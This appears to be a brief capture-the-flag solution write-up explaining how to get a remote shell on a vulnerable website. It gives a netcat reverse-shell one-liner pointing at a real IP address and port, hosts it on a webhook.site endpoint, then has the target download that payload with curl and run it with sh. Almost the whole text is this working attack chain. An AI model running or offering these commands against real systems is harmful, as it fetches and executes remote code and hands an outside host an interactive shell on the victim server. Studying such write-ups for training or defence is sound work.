# Solution

1) Go to https://webhook.site/#!/a14e1c45-f006-473d-add8-3498dd3c7cb7

2) Click 'Edit Response' and set the value to any reverse shell, e.g.:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 161.35.16.37 4000 >/tmp/f
```

3) Execute following commands *sequencially* on website:
```
curl webhook.site/a14e1c45-f006-473d-add8-3498dd3c7cb7/init -o /tmp/payload.sh
sh /tmp/payload.sh
```